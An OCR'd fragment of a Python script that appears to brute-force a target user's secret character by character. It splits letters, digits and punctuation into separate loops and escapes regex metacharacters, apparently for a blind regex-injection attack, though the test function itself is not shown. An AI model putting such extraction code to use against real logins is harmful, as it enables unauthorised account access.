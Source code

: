 ```python
			return
		if test(character, target_user):
			catch = character
			break

# 1st half of the uppercase alphabet (13 total)
def alpha_U1():
	global catch
	for character in string.ascii_letters[26:39]:
		if catch != '':
			return			
		if test(character, target_user):
			catch = character
			break

# 2nd half of the uppercase alphabet (13 total)
def alpha_U2():
	global catch
	for character in string.ascii_letters[39:53]:
		if catch != '':
			return			
		if test(character, target_user):
			catch = character
			break

# numbers (10 total)
def numbers():
	global catch
	for digit in string.digits:
		if catch != '':
			return
		if test(digit, target_user):
			catch = digit
			break

# 1st half of symbols (16 total)
def symbols_1():
	global catch
	for symbol in string.punctuation[0:16]:
		if catch != '':
			return
		# these symbols are escaped because they have connotations in the regular expressions language
		if symbol in ['^', '.', '*', '+', '?', '|', '$', '\\']:
			symbol = f"\\{symbol}"
		if test(symbol, target_user):
			catch = symbol
			break

# 2nd half of symbols (16 total)
def symbols_2():
	global catch
	for symbol in string.punctuation[16:33]:
		if catch != '':
			return
		if symbol in ['^', '.', '*', '+', '?', '|', '$', '\\']:
			symbol = f"\\{symbol}"	
		if test(symbol, target_user):
			catch = symbol
			break
```